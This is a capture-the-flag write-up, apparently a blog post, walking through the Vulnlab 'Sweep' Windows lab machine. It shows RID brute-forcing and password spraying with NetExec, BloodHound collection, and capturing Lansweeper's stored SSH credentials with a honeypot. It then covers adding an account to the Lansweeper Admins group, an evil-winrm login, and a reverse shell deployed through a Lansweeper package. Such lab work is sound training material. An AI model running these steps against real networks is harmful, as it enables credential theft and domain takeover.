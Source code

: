 ```yaml
---
title: VL - Sweep
date: 2024-03-16
categories: [Vulnlab]
tags: [CTF, Windows]
pin: true
---
```


Sweep is a medium rated Windows Vulnlab machine created by Yeeb . The machine consist of getting access through weak credentials, abusing Lansweeper functionalities and abusing more Lansweeper functionalities.

## Enumeration

As usual we start with a quick NMAP scan:
```sh
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
81/tcp   open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp   open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Not valid before: 2021-11-21T09:22:27
|_Not valid after:  2121-12-21T09:22:27
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-29 20:02:00Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?
3259/tcp filtered epncdp2
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-29T20:03:05+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=inventory.sweep.vl
| Not valid before: 2024-02-07T19:09:42
|_Not valid after:  2024-08-08T19:09:42
| rdp-ntlm-info:
|   Target_Name: SWEEP
|   NetBIOS_Domain_Name: SWEEP
|   NetBIOS_Computer_Name: INVENTORY
|   DNS_Domain_Name: sweep.vl
|   DNS_Computer_Name: inventory.sweep.vl
|   DNS_Tree_Name: sweep.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-02-29T20:02:24+00:00
5357/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: INVENTORY; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can now use NetExec to enumerate smb shares and bruteforce the RIDs with the Guest user:

```sh
nxc smb 10.10.109.70 -u 'Guest' -p '' --shares --rid-brute
SMB         10.10.109.70    445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.109.70    445    INVENTORY        [+] sweep.vl\Guest:
SMB         10.10.109.70    445    INVENTORY        [*] Enumerated shares
SMB         10.10.109.70    445    INVENTORY        Share           Permissions     Remark
SMB         10.10.109.70    445    INVENTORY        -----           -----------     ------
SMB         10.10.109.70    445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.109.70    445    INVENTORY        C$                              Default share
SMB         10.10.109.70    445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.109.70    445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.109.70    445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.109.70    445    INVENTORY        NETLOGON                        Logon server share
SMB         10.10.109.70    445    INVENTORY        SYSVOL                          Logon server share
SMB         10.10.109.70    445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.10.109.70    445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.10.109.70    445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.10.109.70    445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```
With this output we can make a user list and test for weak credentials like using the username as password or patterns like [company][year] or [season][year].

```sh
nxc smb 10.10.109.70 -u users.txt -p passwords.txt --shares --continue-on-success
SMB         10.10.109.70    445    INVENTORY        [+] sweep.vl\intern:[REDACTED]
```

With working credentials we can access Lansweeper and we can also run Bloodhound to get some more information about the environment:
```
bloodhound-python -d sweep.vl -c All -dc inventory.sweep.vl -ns 10.10.109.70 -u intern -p [REDACTED] --zip
```

One thing that stands out is the shortest path to DA which makes use of the svc_inventory_lnx user via:
- GenericAll on Lansweeper Admins
So when we get access to this user we can add our self to this group.

## Capturing Credentials
There are SSH credentials configured for the `svc_inventory_lnx` user and Windows credentials for the `svc_inventory_win`.
We can try capturing one of these with a SSH honeypot like [sshesame](https://github.com/jaksi/sshesame), there are many more but this one popped up first. The documentation is simple and straightforward, the only thing important to change is the sshesame.yaml file and make it listen to 0.0.0.0:22:

```sh
./sshesame --config sshesame.yaml 
INFO 2024/03/16 21:07:45 No host keys configured, using keys at "/home/bushidosan/.local/share/sshesame"
INFO 2024/03/16 21:07:45 Listening on [::]:22
WARNING 2024/03/16 21:09:24 Failed to accept connection: Failed to establish SSH server connection: EOF
WARNING 2024/03/16 21:09:28 Failed to accept connection: Failed to establish SSH server connection: ssh: disconnect, reason 11: Session closed
2024/03/16 21:09:28 [10.10.109.70:57075] authentication for user "svc_inventory_lnx" without credentials rejected
2024/03/16 21:09:29 [10.10.109.70:57075] authentication for user "svc_inventory_lnx" with password [REDACTED] accepted
2024/03/16 21:09:29 [10.10.109.70:57075] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
```

## Getting Access
With the credentials and the information gathered through bloodhound we can try adding our self to the Lansweeper Admins group:

```sh
net rpc group addmem "Lansweeper Admins" "svc_inventory_lnx" -U SWEEP/svc_inventory_lnx -S inventory.sweep.vl
```

This gives us both administrator rights over Lansweeper and a way to get into the server via WinRM:
```sh
evil-winrm -i <IP> -u 'svc_inventory_lnx' -p <Password>
```

## Even more 
One of the interesting features in Lansweeper is the `deployment package`, this allows an LanSweeper administrator to execute commands on remote systems. I added a simple Powershell reverse shell to it from revshells.com, it doesn't really matter as long as it is below 1000 characters. As stated earlier there is also a windows service account configured with credentials, we can create a new mapping and map it to our target and run the package to obtain SYSTEM.